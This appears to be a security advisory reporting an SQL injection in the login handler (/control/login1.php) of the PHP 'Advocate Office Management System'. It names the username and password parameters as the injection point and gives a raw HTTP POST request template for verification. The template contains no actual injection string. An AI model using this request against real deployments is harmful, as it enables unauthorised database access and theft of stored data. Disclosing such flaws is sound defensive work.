


Advocate office management has an SQL injection vulnerability that could be exploited by an attacker to steal information or compromise a database without authentication.


Source code address：https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html


The vulnerability is located in the /control/login1.php file, you can see that the code is to receive the POST request username, password parameters, down to 26 lines, will put the input content into the SQL statement for query, resulting in direct splicing.




Vulnerability verification：

```
POST /office/kortex_lite/control/login1.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------256601178914505
Content-Length: 356

-----------------------------256601178914505
Content-Disposition: form-data; name="username"

1@qq.com
-----------------------------256601178914505
Content-Disposition: form-data; name="password"

1
-----------------------------256601178914505
Content-Disposition: form-data; name="login"

Login
-----------------------------256601178914505--

```




